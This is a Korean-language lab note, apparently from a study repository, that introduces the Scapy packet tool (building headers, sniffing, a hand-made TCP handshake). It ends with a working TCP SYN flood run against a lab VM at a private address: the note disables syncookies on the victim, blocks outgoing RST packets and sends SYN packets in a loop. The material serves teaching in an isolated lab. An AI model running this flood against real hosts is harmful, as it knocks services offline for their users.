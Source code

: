 # scapy

파이썬으로 작성된 패킷 조작 도구

패킷 디코딩, 전송, 캡처, 수정 등 다양한 기능을 제공

스카피는 계층 레이어를 쌓을 수 있다

<https://www.itlkorea.kr/data/scapy-pocket-guide0.2.pdf>

### scapy 실행

```bash
scapy
```

### 지원하는 프로토콜을 확인

```
ls()
```

![scapyls](../imgs/scapyls.png)

### TCP 헤더 정보를 출력

```bash
ls(TCP)
```

![scapy ls(TCP)](../imgs/scapy1.png)

```bash
# 현재 설정되어 있는 TCP헤더 정보를 출력
TCP().display()

# 사용가능한 기능을 확인
lsc()
```

![scapy TCP().display()](../imgs/scapy2.png)

```bash
# 현재 설정되어 있는 IP헤더 정보를 출력
IP().display()
# or
ip = IP()    #  변수로 지정
ip.display()
```

![scapy IP().display()](../imgs/scapy3.png)

```bash
# ip destination 값을 192.168.44.144로 변경
ip.dst="192.168.44.144"
ip.display()
```

![scapy ip.display()](../imgs/scapy4.png)

```bash
# scapy는 전송 계층을 쌓을 수 있다. 캡슐래이션 하는 방법을 알아보자
ip = IP()
tcp = TCP()
packet = ip/tcp
packet.display()
```

![scapy packet.display()](../imgs/scapy5.png)

```bash
# sniffing하기
sniff()

# sniffing 결과를 sf 변수에 저장
sf = sniff()    # 실행하고 웹브라우저에서 사이트에 접속해보자
sf.display()
```

![scapy sf.display()](../imgs/scapy6.png)

```bash
# 10개의 정보만 스니핑
sf = sniff(count=10)
sf.display()
```

![scapy sf = sniff(count=10)](../imgs/scapy7.png)

```bash
# 스니핑 한 결과의 0번째를 자세하게 보여준다
sf[0].show()
```

![scapy sf[0].show()](../imgs/scapy8.png)

## scapy를 이용한 3way handshaking

```bash
ip = IP()
ip.display()

ip.dst = "192.168.44.144"
ip.display()

tcp = TCP()
tcp.display()
# 플래그가 s로 되어있다

# sport 를 변경해준다
# RandNum 파이썬에서 랜덤넘버 생성 함수
tcp.sport = RandNum(1024, 65535)
tcp.display()

# 패킷을 만들어 쌓는다
syn = ip/tcp

#
syn_ack = sr1(syn)
syn_ack.display()

#
ack = ip/TCP(sport=syn_ack[TCP].dport, dport=80, flags="A", seq=syn_ack[TCP].ack, ack=syn_ack[TCP].seq+1)
send(ack)

```

wireshark로 확인
3way 핸드 쉐이크를 하려면 빠르게 입력해야 한다
셸스크립트를 작성해서 빠르게 입력되도록 한다

싱크플러딩
싱크 아크/싱크 아크를 보내야하는데
아크를 안보내면 싱크가 계속 기다린다

## TCP SYN Flooding

kali1 (피해자) 클라이언트에서 원활한 실습을 위해 설정을 변경한다

```bash
# 80포트 이용을 위해 서버를 시작한다
service apache2 start

sysctl -a | grep syncookies

net.ipv4.tcp_syncookies = 1    # syncookies를 사용 = backlog que에 SYN 패킷을 저장하지 않음
sysctl: reading key "net.ipv6.conf.all.stable_secret"
sysctl: reading key "net.ipv6.conf.default.stable_secret"
sysctl: reading key "net.ipv6.conf.eth0.stable_secret"
sysctl: reading key "net.ipv6.conf.lo.stable_secret"
```

![scapy sysctl -a | grep syncookies](../imgs/scapy9.png)

```bash
sysctl -w net.ipv4.tcp_syncookies=0

net.ipv4.tcp_syncookies = 0

sysctl -a | grep syncookies
sysctl: reading key "net.ipv6.conf.all.stable_secret"
net.ipv4.tcp_syncookies = 0
sysctl: reading key "net.ipv6.conf.default.stable_secret"
sysctl: reading key "net.ipv6.conf.eth0.stable_secret"
sysctl: reading key "net.ipv6.conf.lo.stable_secret"
```

![scapy sysctl -w net.ipv4.tcp_syncookies=0](../imgs/scapy10.png)

@Kali#2 에서 RST 패킷이 외부로 나가지 못 하도록 방화벽에 등록

## TCP SYN Flooding

```bash
# scapy에서 나온다
exit()

# kali2 공격자 pc에서 rst가 나가는 것을 막는다. kali2에서 아래 명령어를 작업
iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP
```

![scapy iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP](../imgs/scapy11.png)

```bash
# scapy로 들어간다
scapy

ip = IP()
ip.dst="192.168.44.144"
tcp = TCP()
tcp.dport = 80
tcp.sport = RandNum(1024,65535)
tcp.flags = "S"
syn = ip/tcp
send(syn, loop=True)

싱크플러딩 공격
공격자가 피공격자에게 아크를 보내야 하는데 싱크만 계속 보낸다
```

![scapy](../imgs/scapy12.png)

kali1 피해자 클라이언트에서 확인

```bash
# kali1에서 와이어샤크를 띄운다(패킷확인)
wireshark  # ip.addr == 공격자주소 입력

# 터미널에서 실행
netstat -an | grep -i syn_recv

싱크 리시브 상태만 가지고 있다
ddos 공격
```
